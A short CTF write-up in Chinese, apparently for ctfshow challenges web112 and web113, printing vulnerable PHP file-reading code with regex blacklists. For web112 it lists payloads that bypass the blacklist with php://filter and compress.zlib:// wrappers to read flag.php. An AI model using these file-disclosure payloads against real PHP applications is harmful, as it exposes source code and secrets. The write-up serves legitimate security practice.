 ## web112~php伪协议

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

* is_file() 函数检查指定的文件名是否是正常的文件。如果文件存在且为正常的文件，则返回 true。

苦苦不知道flag在哪里，原来就在falg.php

payload:

```php
?file=php://filter/resource=flag.php

?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php

?file=php://filter/read=convert.quoted-printable-encode/resource=flag.php

?file=compress.zlib://flag.php
```

## web113~/proc/self/root 

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
